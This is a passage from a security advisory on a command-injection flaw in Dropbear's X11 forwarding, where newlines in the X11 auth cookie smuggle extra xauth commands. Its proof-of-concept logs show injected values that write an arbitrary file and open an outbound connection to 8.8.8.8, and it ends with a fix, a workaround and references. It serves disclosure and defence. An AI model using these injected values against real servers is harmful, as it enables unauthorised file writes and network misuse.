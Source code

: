 5. `forced-commands` - write `/tmp/testfile`

	```c
	#> .writefile /tmp/testfile1 `thisisatestfile`
	DEBUG:__main__:auth_cookie: '\nadd 127.0.0.250:65500 `thisisatestfile` aa'
	DEBUG:__main__:dummy exec returned: None
	DEBUG:__main__:auth_cookie: '\nextract /tmp/testfile1 127.0.0.250:65500'
	DEBUG:__main__:dummy exec returned: None
	DEBUG:__main__:user1
	/usr/bin/xauth: (stdin):1:  bad "add" command line

	#> INFO:__main__:/tmp/testfile1

	#> ls -lsat /tmp/testfile1
	4 -rw------- 1 user1 user1 59 xx xx 12:51 /tmp/testfile1

	#> cat /tmp/testfile1
	ú65500hiú65500`thisisatestfile`ªr
	```

6. `forced-commands` - initiate outbound X connection to 8.8.8.8:6100

	```c
	#> generate 8.8.8.8:100
	DEBUG:__main__:auth_cookie: '\ngenerate 8.8.8.8:100'
	DEBUG:__main__:dummy exec returned: None
	INFO:__main__:user1
	/usr/bin/xauth: (stdin):1:  bad "add" command line
	/usr/bin/xauth: (stdin):2:  unable to open display "8.8.8.8:100".

	#> tcpdump
	IP <host> 8.8.8.8.6100: Flags [S], seq 81800807, win 29200, options [mss 1460,sackOK,TS val 473651893 ecr 0,nop,wscale 10], length 0
	```

Fix
---

* Sanitize user-tainted input `chansess->x11authcookie`


Mitigation / Workaround
------------------------

* disable x11-forwarding: re-compile without x11 support: remove `options.h` -> `#define ENABLE_X11FWD`

Notes
-----

Thanks to the OpenSSH team for coordinating the fix!

Vendor response see: changelog [4]


References
----------

	[1] https://matt.ucc.asn.au/dropbear/dropbear.html
	[2] http://linux.die.net/man/1/xauth
	[3] https://github.com/tintinweb/pub/tree/master/pocs/cve-2016-3115/
	[4] https://matt.ucc.asn.au/dropbear/CHANGES

Contact
-------

	https://github.com/tintinweb
